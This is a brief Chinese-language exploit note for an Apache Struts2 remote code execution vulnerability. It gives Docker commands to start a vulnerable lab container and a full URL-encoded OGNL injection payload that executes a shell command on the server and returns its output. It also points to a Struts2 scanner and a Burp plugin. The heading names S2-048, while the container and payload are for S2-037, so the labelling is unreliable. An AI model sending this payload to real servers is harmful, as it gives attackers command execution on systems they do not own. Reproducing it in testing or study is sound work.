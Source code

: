 ### S2-048 远程代码执行漏洞
### 环境搭建
```
docker pull medicean/vulapps:s_struts2_s2-037
docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-037
```
### exploit

http://127.0.0.1:8080/orders/4/[payload]

```
(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
```
### 如何扫描并利用
方法一：
https://github.com/HatBoy/Struts2-Scan

方法二：
安装burpsuite插件J2EESCAN并使用scanner模块扫描

